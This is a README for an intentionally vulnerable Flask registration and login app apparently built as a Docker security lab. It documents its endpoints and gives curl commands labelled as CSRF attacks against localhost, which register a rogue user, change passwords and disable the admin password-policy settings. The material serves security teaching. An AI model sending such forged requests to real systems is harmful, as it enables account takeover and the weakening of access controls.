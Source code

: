 # Safe Register & Login Administration

__Unsafe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker, inorder to contain a safety lab environment

## Endpoints

**Home**

* Point for demonstrate a CSRF attacks

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`
<img src="..\README\Photos\Home.PNG"/>

## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\Register.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
\
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerRegistrationDB.PNG"/>

### Login

User Login by given _Name\Email_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\Login.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerLogin.PNG"/>

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\ChangePassword.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerChangePassword.PNG"/>

### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\AfterUserLogin.PNG"/>

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\AdminMenu.PNG"/> 

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\UsersList.PNG"/> 

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\PasswordConfiguration.PNG"/> 

__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````
